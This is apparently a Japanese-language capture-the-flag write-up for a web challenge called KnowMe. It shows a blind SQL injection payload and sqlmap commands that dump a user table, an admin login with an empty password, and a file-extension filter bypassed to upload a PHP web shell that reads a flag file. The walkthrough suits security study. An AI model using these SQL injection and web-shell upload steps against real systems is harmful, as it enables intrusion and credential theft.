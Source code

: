 # KnowMe:Web:100pts
Only someone that knows me can solve me  
Do you know me?  
[https://typhooncon-knowme.chals.io/](https://typhooncon-knowme.chals.io/)  
Flag format: SSD{...}  

# Solution
URLが渡される。  
アクセスすると、ログインフォームのようだ。  
Uploader  
[site1.png](site/site1.png)  
ページタイトル以外の手がかりは無いため、ひとまずdirbをかける。  
```bash
$ dirb https://typhooncon-knowme.chals.io/
~~~
---- Scanning URL: https://typhooncon-knowme.chals.io/ ----
==> DIRECTORY: https://typhooncon-knowme.chals.io/css/
+ https://typhooncon-knowme.chals.io/index.php (CODE:200|SIZE:1015)
+ https://typhooncon-knowme.chals.io/robots.txt (CODE:200|SIZE:25)
==> DIRECTORY: https://typhooncon-knowme.chals.io/uploads/
~~~
```
`/robots.txt`や`/uploads/`などが見つかった。  
現状は許可されていないが、ログイン後に`/uploads/`にファイルをアップロードできそうだ。  
`/robots.txt`を見ると以下のようであった。  
```bash
$ curl https://typhooncon-knowme.chals.io/robots.txt
/items.php
/var/www/flag
```
フラグの場所は`/var/www/flag`のようで、`/items.php`なるものがあるようだ。  
アクセスしてみると`sort parameter required.`とのメッセージが返ってきたため、言われた通りクエリパラメータを付加してみる。  
```bash
$ curl https://typhooncon-knowme.chals.io/items.php
sort parameter required.
$ curl https://typhooncon-knowme.chals.io/items.php?sort=1
{"id":3,"count":2,"itemName":"CTFCreators"}
$ curl https://typhooncon-knowme.chals.io/items.php?sort=2
{"id":1,"count":22,"itemName":"Labtop"}
$ curl https://typhooncon-knowme.chals.io/items.php?sort=3
{"id":2,"count":12,"itemName":"test"}
```
何らかのデータをソートした先頭を取得しているようだ。  
SQLのwhereにクエリ部分が入っていそうであるため、SQLiを狙ってsqlmapを利用する。  
```bash
$ sqlmap -u "https://typhooncon-knowme.chals.io/items.php?sort=1" --dbs
~~~
---
Parameter: sort (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sort=1 AND (SELECT 8339 FROM (SELECT(SLEEP(5)))loyl)
---
~~~
available databases [5]:
[*] information_schema
[*] knowmeDB
[*] mysql
[*] performance_schema
[*] sys
~~~
$ sqlmap -u "https://typhooncon-knowme.chals.io/items.php?sort=1" -D knowmeDB --tables
~~~
Database: knowmeDB
[3 tables]
+-------------+
| items       |
| resetTokens |
| users       |
+-------------+
~~~
$ sqlmap -u "https://typhooncon-knowme.chals.io/items.php?sort=1" -D knowmeDB -T users --dump
~~~
Database: knowmeDB
Table: users
[3 entries]
+----+-------------------------+--------------------------------------------+-------------+
| id | email                   | password                                   | username    |
+----+-------------------------+--------------------------------------------+-------------+
| 1  | admin@admin.com         | d41d8cd98f00b204e9800998ecf8427e (<empty>) | admin       |
| 2  | test@test.com           | d41d8cd98f00b204e9800998ecf8427e (<empty>) | test        |
| 3  | CTFCreators@twitter.com | d41d8cd98f00b204e9800998ecf8427e (<empty>) | CTFCreators |
+----+-------------------------+--------------------------------------------+-------------+
~~~
```
adminのパスワードは空のようだ。  
フロントでは入力が必須とされているので、HTMLを書き換えるかリクエストデータを書き換えてやればよい。  
ログインに成功すると、何かファイルをアップロードできるようだ。  
Profile  
[site2.png](site/site2.png)  
phpファイルのアップロードを狙うが、`Extention (php) not allowed`と怒られる。  
様々な拡張子がブロックされているようだ。  
いくつかの拡張子を調査すると`.png`が許可されていることがわかり、二重拡張子`.png.php`を試すとこれもアップロードに成功した。  
次のようなphpを`satoki.png.php`と名前を付けアップロードしてやればよい。  
```php
<?php echo system("cat /var/www/flag") ?>
```
アップロードすると`The file satoki.png.php has been uploaded.`と言われるので、dirbで発見した`/uploads/`下を見てやる。  
```bash
$ curl https://typhooncon-knowme.chals.io/uploads/satoki.png.php
Do you know this?
SSD{9a0c843a03de8e257b1068a8659be56ac06991f3}
Do you know that?Do you know that?
```
flagが読み取れた。  

## SSD{9a0c843a03de8e257b1068a8659be56ac06991f3}